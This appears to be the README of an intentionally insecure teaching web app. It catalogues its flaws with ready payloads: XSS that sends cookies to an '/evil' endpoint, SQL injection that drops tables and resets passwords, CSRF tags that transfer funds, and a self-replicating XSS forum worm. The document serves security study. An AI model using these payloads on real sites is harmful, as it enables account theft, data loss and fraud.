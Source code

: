 # Web Playground
A web application demonstrating web vulnerabilities. Testing XSS, script injection, SQL injection,...

This is just an uncontrollably broken application. Never put this on any server
of major or minor importance. There is no guarantee that this app cannot be used
to steal everything and crash the server.

# Known issues

Here is a list of all known voulnarbilities on the site

## Search

1. XSS: When displaying "You searched for <string>" the string is not properly
escaped.
   * Test for XSS: `<script> alert("XSS!") </script>`
   * Change all links: `Facebook <script> $(function(){$("a").attr("href", "/evil");}); </script>`
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`
2. SQL Injection: SQL query is manually created and not properly escaped.
   * Test shows stack trace and actual code: `'`
   * See all hidden links: `aaa ' OR hide=1 OR hide='`

## Login

1. Remember password: Browser can preload your saved passwords.
   * You can inspect the password input field and change type from `password` to
   `text` and the saved password will be visible.
2. GET: Using GET method instead of POST
   * Everyone can see all the posted data i.e. username and password in the URL
3. CSRF: site does not check for origin of the request
   * You can click a link (or not) and be logged in as someone else
4. __SQL injection: SQL query not properly escaped__
   * Test shows stack trace and actual code: `'`
   * Delete tables: `'); DROP TABLE users;('`
   * Change all passwords: `'); UPDATE users SET password='funfun';`

## Pay

1. Parameters unchecked: editing GET parameters lets users transfer any amount
   * Send money to yourself: `&amount=-100`
2. GET: Using GET method instead of POST
   * Send funds when seeing an image: `<img src="/pay?action=pay&username=maks&amount=100"/>`
3. CSRF: site does not check for origin of the request:
   * Send funds when seeing a script: `$.get("/pay?action=pay&username=maks&amount=100")`

## Forum

1. GET: Using GET method instead of POST
   * No re-confirmation when reloading a page. You simply re-post.
2. CSRF: site does not check for origin of the request
   * Images can cause damage: `<img src='/forum?action=new&title=XSS&content=imageXSS'/>`
3. XSS: Many things not escaped. Title, content, user's name.
   * Self replicating post:
      ```HTML
      <span class="xss">
          Tekst?
          <script>
              $.get('?action=new&title=XSS&content='+
                    encodeURIComponent($(".xss")[0].outerHTML));
          </script>
      </span>
      Quil?
      <script>
          var prog = "Quil?<script>var prog = @;$.get('?action=new&title=XSS&content='+encodeURIComponent(prog.replace('@', prog)+'t>'));</scrip";
          $.get('?action=new&title=XSS&content='+
                encodeURIComponent(prog.replace('@', prog)+'t>'));
      </script>
      ```
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`

## Database viewer (/db_viewer_XDSie983BQbnxc_asjdh)

1. URL change: no sanity checks for url parameters
   * Access all data by changing table name in the url
2. Unaythorized access
   * Anyone with a link can access it
